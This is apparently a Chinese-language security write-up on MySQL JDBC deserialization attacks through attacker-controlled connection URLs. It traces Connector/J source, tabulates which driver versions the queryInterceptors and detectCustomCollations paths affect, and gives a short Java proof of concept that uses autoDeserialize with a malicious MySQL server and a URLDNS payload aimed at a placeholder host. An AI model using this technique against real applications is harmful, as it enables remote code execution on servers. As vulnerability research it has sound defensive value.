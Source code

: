 - [Mysql JDBC 反序列化](#mysql-jdbc-反序列化)
  - [Mysql](#mysql)
    - [autoDeserialize](#autodeserialize)
    - [queryInterceptors](#queryinterceptors)
    - [ServerStatusDiffInterceptor](#serverstatusdiffinterceptor)
      - [ResultSetImpl#getObject](#resultsetimplgetobject)
      - [版本区别](#版本区别)
        - [8.x版本](#8x版本)
        - [6.x版本](#6x版本)
        - [5.x版本](#5x版本)
    - [detectCustomCollations](#detectcustomcollations)
      - [总结](#总结)
    - [复现](#复现)
    - [参考](#参考)
# Mysql JDBC 反序列化
主要是当JDBC Mysql连接的url可控时的攻击面  
条件: JDBC连接的url可控.  
JDBC基础语法:
```
jdbc:mysql://[host][,failoverhost...]
    [:port]/[database]
    [?propertyName1][=propertyValue1]
    [&propertyName2][=propertyValue2]...
```
## Mysql
通过在JDBC连接时指定autoDeserialize,queryInterceptors等参数让服务器自动进行反序列化恶意数据。
### autoDeserialize
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-blob-clob-processing.html#cj-conn-prop_autoDeserialize)  
该属性用于指示处理BLOB类型时驱动是否自动识别并反序列化BLOB字段的数据,默认为false.
![](1.png)  
主要有两个地方可以触发反序列化,一个是通过queryInterceptors,另一个是detectCustomCollations.
### queryInterceptors
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-statements.html#cj-conn-prop_queryInterceptors)  
语句拦截器,用于在两条语句执行中间对结果进行修改,接受以逗号分隔并实现了`com.mysql.cj.interceptors.QueryInterceptor`类的class列表,并且为链式结构,处理结果从左到右依次传递.
![](2.png)

而在JDBC连接过程中会自动执行SET CHARSET,set autocommit=1等语句来初始化一些环境参数,就会触发`queryInterceptors`参数中指定的类执行。

不同版本的参数名有一些差异
1. 8.x版本: queryInterceptors
2. 6.x版本：queryInterceptors->statementInterceptors.
3. 5.1.11以上版本: queryInterceptors->statementInterceptors.
4. 5.1.10及以下的5.1.X版本,queryInterceptors->statementInterceptors,需要连接后执行查询语句后才会触发Interceptors.
### ServerStatusDiffInterceptor
`ServerStatusDiffInterceptor`类就是实现了`com.mysql.cj.interceptors.QueryInterceptor`的子类，其中的`preProcess`表示在下一条语句执行前要执行的方法,代码如下
![](3.png)
其中调用了`populateMapWithSessionStatusValues`,在其中最后调用了`ResultSetUtil.resultSetToMap(toPopulate, rs);`
而在`resultSetToMap`中则会触发`ResultSet.getObject`  
```java
    public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }

    }
```
#### ResultSetImpl#getObject
在ResultSetImpl#getObject的实现中,会根据字段类型做不同处理,当处理到blob字段类型时则会对字段数据进行反序列化,造成反序列化攻击。
![](4.png)
![](5.png)
#### 版本区别
然而在不同的小版本中,`ServerStatusDiffInterceptor`这个类经常被修改,
##### 8.x版本
* 8.0.9 <= version < 8.0.20   
在8.0.9版本及之前,该类的位置在,https://github.com/mysql/mysql-connector-j/blob/8.0.8/src/main/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java.    
从8.0.11之后的源码位置:  
https://github.com/mysql/mysql-connector-j/blob/8.0.11/src/main/user-impl/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java.

从源码可以看到在8.0.7到8.19之间是调用的`ResultSetUtil.resultSetToMap(toPopulate, rs);`可以触发反序列化.  
![](2023-07-24-16-48-58.png)
* 8.0.20 <= version <= 8.1.0
从8.0.20截止到 8.1.0为止该类不再调用`ResultSetUtil.resultSetToMap(toPopulate, rs);`而是调用`toPopulate.put(rs.getString(1), rs.getString(2));`      
![](2023-07-24-16-53-12.png)  
##### 6.x版本
全版本6.0.0到6.0.6之间都可以触发    
https://github.com/mysql/mysql-connector-j/blob/6.0.6/src/main/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java  
![](2023-07-24-17-11-45.png)  
##### 5.x版本
而在5.x版本,除了5.1.49版本使用的是`toPopulate.put(rs.getString(1), rs.getString(2));`之外.  
https://github.com/mysql/mysql-connector-j/blob/5.1.49/src/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java  
从5.1.1到5.1.48都是调用的` Util.resultSetToMap(toPopulate, rs);`   
https://github.com/mysql/mysql-connector-j/blob/5.1.48/src/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java  
![](2023-07-24-17-16-11.png)  
### detectCustomCollations
在`ConnectionImpl`中,会对`SHOW COLLATION`返回结果调用`Util.resultSetToMap`进行处理，而`resultSetToMap`则和`ServerStatusDiffInterceptor`相同,最后走到`ResultSetImpl#getObject`触发反序列化。
![](8.png)
前提是`this.getDetectCustomCollations()`要为true,且最小版本要大于5.0.0。  
而detectCustomCollations这个选项在5.1.29之前一直为true,但我们也可以在参数中直接指定该变量为true。  
![](13.png)  
而在5.1.18及以下版本并未使用getObject(),无法触发。 
![](18.png)  
根据[参考文章](https://www.anquanke.com/post/id/203086#h2-4)说是由于从5.1.41版本开始，不再使用getObject的方式获取SHOW COLLATION的结果，此方法失效,实测是5.1.39以后,不再直接调用`ResultSetImpl#getObject`,但是对`SHOW COLLATION`结果的第三列直接调用了results.getObject(),最后还是进入的ResultSetImpl#getObject中.
![](9.png)
其中字段类型为-4,-3,-2(blob,bit,binary)时会进入`getObjectDeserializingIfNeeded`方法,直接用[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)的设置即可满足此条件.    
![](10.png)
该方法和之前类似进行了反序列化操作,其中通过`this.connection.getAutoDeserialize()`来确定是否进行反序列化,在url中同之前一样设置`autoDeserialize=true`即可.
![](11.png)
![](12.png)  

直到5.1.49才真正没有调用getObject().
![](14.png)
但在6.0.2开始,版本中却又直接调用了`ResultSetUtil.resultSetToMap`，又回到了`ServerStatusDiffInterceptor`那条链中,同样可以触发反序列化,实测直到6.0.6版本都是这样。
![](15.png)
![](17.png)

而在8.x版本获取`SHOW COLLATION`时又不一样了,才终于无法利用该点触发了。
![](16.png)
#### 总结
detectCustomCollations触发版本:5.1.18< version <=6.0.6(5.1.49除外)  
queryInterceptors触发版本: 5.1.1 < version <= 8.0.19(5.1.49除外)  
### 复现
[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)  

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class JDBC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.cj.jdbc.Driver");

        Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","yso_URLDNS_http://xxx.cn/", "pass");
        //Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?detectCustomCollations=true&autoDeserialize=true","yso_URLDNS_http://xxx.cn/", "pass");
    }
}

```
判断返回数据前两个字节是否为序列化数据的特征-84,-19,满足条件则进行反序列化.
![](6.png)

![](7.png)
### 参考
https://www.anquanke.com/post/id/203086#h2-4

